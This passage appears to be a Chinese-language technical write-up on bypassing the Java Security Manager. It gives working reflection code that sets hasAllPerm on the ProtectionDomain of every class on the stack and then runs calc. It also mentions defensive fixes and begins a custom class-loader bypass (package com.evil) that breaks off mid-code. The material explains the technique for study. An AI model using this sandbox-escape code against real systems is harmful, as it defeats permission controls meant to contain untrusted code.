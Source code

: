 `既然检查人员不能修改，那我就修改检查的对象`。

```java
public static void setHasAllPerm0(){
        StackTraceElement[] stackTraceElements = Thread.currentThread().getStackTrace();
        //遍历栈帧
        for (StackTraceElement stackTraceElement : stackTraceElements) {
            try {
                Class clz=Class.forName(stackTraceElement.getClassName());
                //利用反射调用getProtectionDomain0方法
                Method getProtectionDomain=clz.getClass().getDeclaredMethod("getProtectionDomain0",null);
                getProtectionDomain.setAccessible(true);
                ProtectionDomain pd=(ProtectionDomain) getProtectionDomain.invoke(clz);

                if(pd!=null){
                    Field field=pd.getClass().getDeclaredField("hasAllPerm");
                    field.setAccessible(true);
                    field.set(pd,true);
                }
            }catch (Exception e){
                e.printStackTrace();
            }
        }
        exec("calc");
    }
```

> 这里面一个关键的思路在于: 很多类本身对于policy的实现大概是这样： `public`方法中先检测权限，然后再调用`private`方法，那么我们有反射权限的时候，就可以直接调用私有方法即可。

这里最简单的修复方式：`不授予accessDeclaredMembers权限和suppressAccessChecks权限。`

但是反射最为java的拿手好戏，被完全ban掉是不可能的，所以在`sun.reflect.Reflection`中定义了静态的`methodFilterMap`和`fieldMethodMap`，在这里面的方法和变量禁止反射。`sun.reflect.Reflection`还提供了几个方法，可以往`methodFilterMap`和`fieldMethodMap`中添加自定义的黑名单。

**创建类加载器绕过JSM**

一个类的protectiondomain在这个类被加载器加载时初始化，如果我们能自定义一个类加载器，加载一个恶意的类，并且把它的protectionDomain里面的权限初始化为所有权限，这个恶意类是不是就有所有权限了，`AC`的检测并不会只看他，还要看整个栈，这个时候就是`doPrivileged`了，只要`AC`遍历到该类就不会再继续检测下去。

https://github.com/codeplutos/java-security-manager-bypass/issues/2

```java
package com.evil;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.nio.ByteBuffer;
import java.nio.channels.Channels;
import java.nio.channels.FileChannel;
import java.nio.channels.WritableByteChannel;
import java.security.*;
import java.security.cert.Certificate;

public class MyClassLoader extends ClassLoader {
    public MyClassLoader() {
    }

    public MyClassLoader(ClassLoader parent) {
        super(parent);
    }

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        File file = getClassFile(name);
        try {
```